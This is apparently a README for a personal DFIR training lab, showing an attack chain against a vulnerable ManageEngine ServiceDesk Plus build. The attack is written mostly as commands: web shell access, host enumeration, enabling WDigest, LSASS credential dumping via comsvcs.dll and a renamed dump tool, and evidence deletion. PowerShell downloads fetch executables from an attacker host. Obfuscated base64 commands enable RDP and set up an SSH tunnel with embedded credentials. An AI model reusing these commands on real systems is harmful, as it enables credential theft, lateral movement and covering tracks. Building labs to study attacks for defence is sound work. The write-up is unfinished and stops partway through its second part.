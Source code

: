 # Building My First DFIR Lab

## Lab Schema

![](LabSchema.png)


## Environment Setup
- Victim Machine: Windows 10 has:
    -  Vulnerable ManageEngine ServiceDesk Plus build 11303 found on the [ManageEngine Archives](https://archives.manageengine.com/service-desk/11303/)
    -  Sysmon for Windows Logging
    -  Wireshark
- Attacker Machine: Kali Linux
- Server: Windows 10
## Planning
- We will be dividing our lab to multiple parts
    - Part 1: Initial Access & Credentials Dumping
    - 

## Let's Go
### - Part 1:

#### a. Applying The Exploit:
![image](https://github.com/user-attachments/assets/d39fde33-273d-403c-9195-8dac52d64db1)

![image](https://github.com/user-attachments/assets/e7563550-22d8-4a1b-b8eb-b9b3761d9678)

#### b. Visiting wbsh.jsp

![image](https://github.com/user-attachments/assets/bb3eb98c-0af0-4dd2-ab0b-e478fed02f31)

#### c. Enum
  1. `whoami`
  2. `ipconfig /all`
  3. `systeminfo`
  4. `arp -a`
  5. `tasklist`
lsass.exe                      652 Services                   0     16,848 K
  
  6. `reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential`
#### e. `powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'`
#### f. `C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 652 C:\Windows\Temp\logctl.zip full`
#### g. Download C:\Windows\Temp\logctl.zip
#### h. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')`
#### k. `C:\windows\temp\calc.exe -accepteula -ma 652 C:\Windows\Temp\logct2.dmp`
#### l. Delete both of them `Remove-Item -Path "C:\Windows\Temp\logct2.dmp", "C:\Windows\Temp\logctl.zip"`

### - Part 2: Lateral Movement

#### a. Download ekern.exe `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')`
#### b. Check if RDP is Enabled? `Get-Service -Name TermService`
#### c. Enable RDP using the Encoded Command
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```
#### d. `Get-Service -Name TermService`
#### e. Write the FXS.bat
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCBIQGNrM3IgLXB3IENAbnRfRDNmM25kXzIwMjEtNDQwNzcgLVIgMTI3LjAuMC4xOjQ5ODAwOjE5Mi4xNjguMjAuMTQ1OjMzODkgMTkyLjE2OC4xLjInDQokYmF0Y2hGaWxlUGF0aCA9ICdDOlxVc2Vyc1xWaWN0aW1cRG9jdW1lbnRzXEZYUy5iYXQnDQpTZXQtQ29udGVudCAtUGF0aCAkYmF0Y2hGaWxlUGF0aCAtVmFsdWUgJGJhdGNoQ29udGVudA==')) | Invoke-Expression}"
```
  
